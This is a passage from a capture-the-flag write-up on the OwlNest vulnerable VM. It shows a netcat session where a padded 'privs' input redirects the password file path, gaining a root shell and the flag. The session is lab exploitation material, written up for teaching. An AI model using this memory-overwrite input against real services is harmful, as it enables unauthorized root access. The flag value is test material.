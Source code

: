 ``` bash
read(0,
```

So, all we need to do now, is write a file to /home/rmp containing a password, and make the application read it instead of /root/password.txt.

``` bash
root@pwk:~# nc 172.16.56.140 31337
        (\___/)   (\___/)   (\___/)   (\___/)   (\___/)   (\___/)
        /0\ /0\   /o\ /o\   /0\ /0\   /O\ /O\   /o\ /o\   /0\ /0\
        \__V__/   \__V__/   \__V__/   \__V__/   \__V__/   \__V__/
       /|:. .:|\ /|;, ,;|\ /|:. .:|\ /|;, ,;|\ /|;, ,;|\ /|:. .:|\
       \\:::::// \\;;;;;// \\:::::// \\;;;;;// \\;;;;;// \\::::://
   -----`"" ""`---`"" ""`---`"" ""`---`"" ""`---`"" ""`---`"" ""`---
        \__V__/   \__V__/   \__V__/   \__V__/   \__V__/   \__V__/

This is the OwlNest Administration console

Type Help for a list of available commands.

Ready: username root
Ready: privs AAAAAAAAAAAAAAAA/home/rmp/password.txt
Ready: password password
Ready: login
Access Granted!
Dropping into /bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag.txt
               \ `-._......_.-` /
                `.  '.    .'  .'  	Oh Well, in the end you did it!
                 //  _`\/`_  \\    	You stopped the olws' evil plan
                ||  /\O||O/\  ||   	By pwning their secret base you
                |\  \_/||\_/  /|   	saved the world!
                \ '.   \/   .' /
                / ^ `'~  ~'`   \
               /  _-^_~ -^_ ~-  |
               | / ^_ -^_- ~_^\ |
               | |~_ ^- _-^_ -| |
               | \  ^-~_ ~-_^ / |
               \_/;-.,____,.-;\_/
        ==========(_(_(==)_)_)=========

The flag is: ea2e548590260e12030c2460f82c1cff8965cff1971107a9ecb3565b08c274f4

Hope you enjoyed this vulnerable VM.
Looking forward to see a writeup from you soon!
don't forget to ping me on twitter with your thoughts

Sincerely
@Swappage

PS: why the owls? oh well, I really don't know and yes: i really suck at fictioning :p
True story is that i was looking for some ASCII art to place in the puzzles and owls popped out first
```


![](http://media.tumblr.com/69d8d838b215ce8aeb5bcee2cac8c67a/tumblr_inline_n6f627Eb3o1rv1fhg.gif)
